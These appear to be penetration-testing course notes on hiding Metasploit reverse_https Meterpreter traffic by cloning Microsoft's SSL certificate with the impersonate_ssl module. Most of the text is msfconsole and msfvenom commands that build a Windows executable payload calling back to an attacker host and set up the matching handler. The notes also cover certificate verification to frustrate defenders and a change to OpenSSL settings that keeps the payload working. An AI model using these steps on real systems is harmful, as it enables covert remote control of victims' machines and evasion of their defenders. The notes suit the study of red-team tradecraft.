




custom SSL certificate
PREREQUISTE:
• It is not possible to try this method on a Vmware lab with VMs because is not possible see TLS(SSL) packets.
reverse_https with a custom SSL certificate
To better obfuscate/encrypt our traffic making it harder to detect, we can configure our own SSL certificate for our payload and handler.
This technique can be used in two ways:
• By getting an SSL certificate signed by CA (a genuine SSL certificate)
We can purchase a genuine SSL certificate from an authorized seller or you can use services such as
Let's Encrypt to get a genuine SSL certificate for free
• By using someone else's SSL certificate (impersonation) ← WHAT WE WILL USE NOW
Default SSL certificateWhen we establish a meterpreter connection with
•
multi/handler via msf on the attacker machine(server)
•
payload created with msfvenom on the target(client)
and we monitor the traffic with wireshark and filter for ssl traffic specifically for the
Server Hello from the attacker machine(server)
and we do “right click” → Follow → TCP Stream
The packets(in ASCII format) contain
SSL certificate informations and is passed to the client in clear text.
This SSL certificate is randomly generated by metasploit(when we use default options) and can be likely be flagged as suspicious from the defenses
Custom SSL certificateTo reduce the chances to be detected we can use the module
msf> use auxiliary/gather/impersonate_ssl
msf> set RHOST www.microsoft.com
msf> set EXPIRATION <expiration-date-in DD MM YYYY format>
msf> set ADD_CN *.microsoft.com
Essentially this module will request a copy of an SSL certificate from a site that we are choosing, than it will create a
private key (PEM|DER) that we can use to configure our
payload and the
handler. This allow to impersonate someone else with the custom SSL certificate and can help to evade the defenses
Now we have to generate
payloadWe can do that by using:
• metasploit
msf> use payload/windows/meterpreter/reverse_https
msf> set LHOST <AttackerIP>
msf> set LPORT 8443
msf> set handlersslcert /root/.msf4/loot/20201031135026_default_92.122.145.53_92.122.145.53_pe_210718.pem
msf> set stagerverifysslcert true #so will be more difficult for defenders to intercept our SSL traffic
msf> generate -f exe -o /home/kali/Desktop/customPayload.exe
• msfvenom
msfvenom -p windows/memeterpreter/reverse_https lhost=<AttackerIP> port=443 handlersslcert=<pem-file> stagerverifysslcert=true -f exe -o <output-file>
Now we have to setup the
handler with the same SSL options
msf> use multi/handler
msf> set LHOST <AttackerIP>
msf> set LPORT 8443
msf> set handlersslcert /root/.msf4/loot/20201031135026_default_92.122.145.53_92.122.145.53_pe_210718.pem
msf> set stagerverifysslcert true #so will be more difficult for defenders to intercept our SSL traffic
msf> set payload windows/meterpreter/reverse_https
msf> exploit -j #background
Now when we intercept the traffic with wireshark we will we in the SSL certificate informations from the Server(our attacker machine) this
 “right click” → Follow → TCP Stream
WARNING:OpenSSL is been updated and changed the following option
CipherString=DEFAULT@SECLEVEL=2 in /etc/ssl/openssl.cnf
This can sometimes completely break the reverse_https payloads disabling to use
HandlerSSLCert option.
To resolve that we can simply change back the
CipherString parameter to DEFAULT
gedit /etc/ssl/openssl.cnf
CipherString=DEFAULT{kind=link}